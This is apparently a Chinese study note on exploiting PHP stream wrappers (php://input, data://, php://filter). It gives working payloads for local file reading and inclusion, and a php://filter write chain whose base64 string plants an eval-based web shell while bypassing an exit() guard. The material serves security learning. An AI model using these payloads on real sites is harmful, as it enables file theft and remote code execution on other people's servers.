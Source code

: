 # PHP中的协议利用

## ``php://input``

接收POST RAW 

## ``data://``

``data://text/plain,<phpcode>``

## ``php://filter``简单理解：

php://filter 是php中独有的一个协议，可以作为一个中间流来处理其他流，可以进行任意文件的读取；根据名字，filter，可以很容易想到这个协议可以用来过滤一些东西；

使用不同的参数可以达到不同的目的和效果：

| 名称                      | 描述                                                         | 备注 |
| ------------------------- | ------------------------------------------------------------ | ---- |
| resource=<要过滤的数据流>  | 指定了你要筛选过滤的数据流                                   | 必选 |
| read=<读链的筛选列表>      | 可以设定一个或多个过滤器名称，以管道符"\|"分割               | 可选 |
| write=<写链的筛选列表>     | 可以设定一个或多个过滤器名称，以管道符"\|“分割               | 可选 |
| <；两个链的筛选列表>       | 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。 |      |

> Trick： read 和write 里 可以塞垃圾字符

### string.strip_tags

### convert 转换过滤器

- base64-encode/decode

- **convert.iconv.\***

> The convert.iconv.* filters are available, if iconv support is enabled, and their use is equivalent to processing all stream data with iconv(). These filters do not support parameters, but instead expect the input and output encodings to be given as part of the filter name, i.e. either as convert.iconv.``<input-encoding>``.``<output-encoding>`` or convert.iconv.``<input-encoding>``/``<output-encoding>`` (both notations are semantically equivalent).
>
>Example #3 convert.iconv.*
>
>```php
><?php
>$fp = fopen('php://output', 'w');
>stream_filter_append($fp, 'convert.iconv.utf-16le.utf-8');
>fwrite($fp, "T\0h\0i\0s\0 \0i\0s\0 \0a\0 \0t\0e\0s\0t\0.\0\n\0");
>fclose($fp);
>/* Outputs: This is a test. */
>?>
>```

简单来说``convert.iconv.*``相当于调用了``iconv()``

可以看这个示例

```php
<?php
echo iconv('UCS-4LE','UCS-4BE',"<?ph");
//Output:hp?<
?>
```

利用:

1. LFR/LFI

``php://filter/read=convert.base64-encode/resource=file.txt``

- ``php://input`` + POST报文php代码  (allow_url_include=On)

- ``data://text/plain,<phpcode>`` (allow_url_include=On)


2. 绕过死亡exit,关键词检测 

Example:

```
php://filter/write=string.strip_tags|convert.base64-decode/resource=?>PD9waHAgQGV2YWwoJF9QT1NUW1FmdG1dKT8+/../Qftm.php
```


## 参考资料

谈一谈php://filter的妙用:https://www.leavesongs.com/PENETRATION/php-filter-magic.html

php 可用过滤器列表 ：https://www.php.net/manual/en/filters.php

探索php://filter在实战当中的奇技淫巧 ： https://www.anquanke.com/post/id/202510